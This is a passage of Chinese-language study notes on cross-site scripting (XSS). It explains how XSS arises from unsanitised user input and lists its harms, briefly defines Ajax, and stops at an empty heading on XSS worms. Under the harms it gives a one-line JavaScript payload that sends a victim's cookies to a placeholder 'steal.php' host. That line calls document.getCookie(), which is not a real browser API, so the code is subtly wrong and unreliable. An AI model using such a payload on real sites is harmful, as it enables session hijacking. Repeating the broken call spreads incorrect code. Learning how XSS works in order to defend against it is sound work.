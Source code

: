 # XSS 攻击

### XSS 原理
1. XSS 代表跨站脚本(Cross-Site scripting),是Web应用程序中最广泛最具破坏性的安全漏洞之一.是发生在目标用户的浏览器上,将导致客户端执行攻击者注入的代码.
2. 客户端执行攻击者注入的代码原因
   1. 网站接收用户输入,并使用该输入构造页面.(没有考虑用户输入脚本情况,而JS可以控制页面的所有元素比如cookie和表单)
3. XSS 的危害
   1. 通过JS窃取Cookie
        `new Image().src="www.example.com/steal.php?cookie="+document.getCookie()`
   2. 使用JavaScript构建表单,模拟提交.
### Ajax
1. Ajax是Asynchronous JavaScript and XML的简称,不是一门语言,使用JS实现.具有异步执行和局部更新的显著优点.

### XSS 蠕虫